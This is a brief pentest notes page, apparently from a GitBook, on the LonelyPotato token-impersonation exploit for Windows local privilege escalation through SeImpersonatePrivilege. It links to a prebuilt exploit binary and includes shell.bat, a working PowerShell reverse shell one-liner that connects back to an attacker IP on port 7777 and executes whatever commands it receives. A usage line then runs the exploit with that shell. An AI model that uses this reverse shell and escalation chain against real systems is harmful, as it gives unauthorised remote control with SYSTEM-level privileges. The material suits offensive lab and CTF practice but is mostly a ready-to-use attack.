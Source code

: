 # LonelyPotato - SeImpersonatePrivilege

https://hunter2.gitbook.io/darthsidious/privilege-escalation/token-impersonation

https://github.com/decoder-it/lonelypotato/blob/master/RottenPotatoEXE/MSFRottenPotato.exe

https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/

![](../.gitbook/assets/image%20%2839%29.png)

Example:

![](../.gitbook/assets/image%20%2845%29.png)

## shell.bat

```c
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.32',7777);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (IEX $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

## Usage

```text
lonelypotato.exe t shell.bat
```

![](../.gitbook/assets/image%20%2836%29.png)

![](../.gitbook/assets/image%20%2843%29.png)

